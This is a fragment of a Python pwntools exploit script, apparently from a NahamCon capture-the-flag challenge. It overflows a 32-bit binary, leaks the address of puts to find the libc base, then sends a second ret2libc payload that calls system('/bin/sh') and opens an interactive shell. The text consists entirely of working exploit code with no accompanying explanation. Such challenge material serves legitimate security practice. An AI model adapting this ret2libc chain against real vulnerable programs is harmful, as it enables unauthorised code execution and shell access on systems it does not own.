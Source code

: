 ```py
payload += p32(elf.entrypoint)

print(payload)

with open('payload', 'wb+') as f:
	f.write(payload)

# with remote('challenge.nahamcon.com', 30234) as p:
with elf.process() as p:
	p.sendline(payload)

	_ = p.recvuntil(b'baby name?\n')

	leaks = p.recvline()
	leak_puts = unpack(leaks[:4])
	print("Leak puts @", hex(leak_puts))
	
	# From a first leak : 
	# libc = ELF('/opt/libc-database/db/libc6_2.15-0ubuntu10.23_i386.so')
	# libc = ELF('/opt/libc-database/db/libc6-i386_2.35-0ubuntu3_amd64.so')

	libc = elf.libc

	libc.address = leak_puts - libc.symbols.puts

	print("Libc @ ", hex(libc.address))
	print("System @ ", hex(libc.symbols.system))
	print("Bin/Sh  @ ", hex(next(libc.search(b'/bin/sh\x00'))))
	
	_ = p.recvuntil(b'baby name?\n')
	payload2 = cyclic(offset)
	payload2 += p32(libc.symbols.system)
	payload2 += p32(libc.symbols.exit)
	payload2 += p32(next(libc.search(b'/bin/sh')))
	p.sendline(payload2)
	p.interactive()
```